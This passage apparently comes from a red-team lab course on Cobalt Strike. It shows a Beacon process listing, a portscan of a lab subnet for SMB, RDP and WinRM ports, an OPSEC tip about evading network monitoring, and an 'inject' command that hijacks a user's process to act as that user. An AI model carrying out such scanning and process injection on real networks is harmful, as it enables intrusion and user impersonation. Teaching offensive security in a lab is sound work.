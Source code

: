 And associated processes:

```
beacon> ps

 PID   PPID  Name                         Arch  Session     User
 ---   ----  ----                         ----  -------     -----
 644   776   ShellExperienceHost.exe      x64   3           ZPS\jean.wise
 1012  696   svchost.exe                  x64   0           NT AUTHORITY\NETWORK SERVICE
 1788  776   SearchUI.exe                 x64   3           ZPS\jean.wise
 3080  776   RuntimeBroker.exe            x64   3           ZPS\jean.wise
 3124  3752  explorer.exe                 x64   3           ZPS\jean.wise
 4960  1012  rdpclip.exe                  x64   3           ZPS\jean.wise
 4980  696   svchost.exe                  x64   3           ZPS\jean.wise
 5008  1244  sihost.exe                   x64   3           ZPS\jean.wise
 5048  1244  taskhostw.exe                x64   3           ZPS\jean.wise
```

Our next set of actions depends on a few things.

1. Does `jean.wise` have any privileged access in `zeropointsecurity.local`?
2. Can we reach any useful ports/services (445, 3389, 5985 etc) in `zeropointsecurity.local`?

We haven't been able to answer the first question (yet) because we can't enumerate the domain across the trust. The second question can be answered using the `portscan` command in Beacon.

```
beacon> portscan 10.10.18.0/24 139,445,3389,5985 none 1024
10.10.18.221:3389
10.10.18.221:5985

10.10.18.167:139
10.10.18.167:445
10.10.18.167:3389
10.10.18.167:5985

Scanner module is complete
```

&#x20;

**OPSEC Alert**

Obviously be cautious about port scanning whole subnets, as networking monitoring tools can detect it.

It appears as though we can access some useful ports on both `dc01` and `sql01`.

Inject a Beacon into one of `jean.wise`'s processes.

```
beacon> inject 4960 x64 tcp-local
[+] established link to child beacon: 10.10.15.90
```

![.gitbook/assets/1663788103.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663788104/koi357oc8rkxrcasfc4a.png)

In that Beacon, we are `jean.wise`.
